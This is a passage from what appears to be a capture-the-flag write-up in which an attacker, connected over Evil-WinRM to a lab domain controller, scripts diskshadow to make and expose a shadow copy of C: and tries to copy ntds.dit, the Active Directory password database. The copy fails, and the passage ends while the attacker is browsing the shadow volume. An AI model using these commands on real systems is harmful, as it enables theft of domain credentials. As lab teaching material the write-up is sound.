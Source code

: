 It says error on first line set context persistent nowriter but in my txt file i have written nowriters maybe it is eating up one character lets add a 0 at the end of each line then.
```
set context persistent nowriters0
add volume c: alias sidd0
create0
expose %sidd% v:0
exec "C:\Windows\System32\cmd.exe" /C copy v:\windows\ntds\ntds.dit c:\temp\ntds.dit0
```
Now let's upload our edited txt file and use diskshadow.
```shell
**Evil-WinRM** PS C:\temp> upload sidchn.txt
Info: Uploading sidchn.txt to C:\temp\sidchn.txt

                                                             
Data: 228 bytes of 228 bytes copied

Info: Upload successful!

**Evil-WinRM** PS C:\temp> diskshadow /s sidchn.txt
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  10/3/2020 6:12:53 AM

-> set context persistent nowriters
-> add volume c: alias sidd
-> create
Alias sidd for shadow ID {b6a808bd-2394-4e03-b06e-60f5580061c9} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {e0ab325c-f672-468b-bd5d-10e0e67db9d4} set as environment variable.

Querying all shadow copies with the shadow copy set ID {e0ab325c-f672-468b-bd5d-10e0e67db9d4}

        * Shadow copy ID = {b6a808bd-2394-4e03-b06e-60f5580061c9}               %sidd%
                - Shadow copy set: {e0ab325c-f672-468b-bd5d-10e0e67db9d4}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{351b4712-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 10/3/2020 6:12:54 AM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                - Originating machine: DC01.BLACKFIELD.local
                - Service machine: DC01.BLACKFIELD.local
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %sidd% v:
-> %sidd% = {b6a808bd-2394-4e03-b06e-60f5580061c9}
**The shadow copy was successfully exposed as v:\.**
-> exec "C:\Windows\System32\cmd.exe" /C copy v:\windows\ntds\ntds.dit c:\temp\ntds.dit
diskshadow.exe : Access is denied.
    + CategoryInfo          : NotSpecified: (Access is denied.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
        0 file(s) copied.
The command script returned failure exit code 1.
The command script failed.
**Evil-WinRM** PS C:\temp> 
```
The shadow copy was created successfully but it says that we can't copy the ntds.dit file.<br>
```shell
**Evil-WinRM** PS C:\temp> cd v:
**Evil-WinRM** PS v:\> cd Users/Administrator/Desktop
**Evil-WinRM** PS v:\Users\Administrator\Desktop> dir


```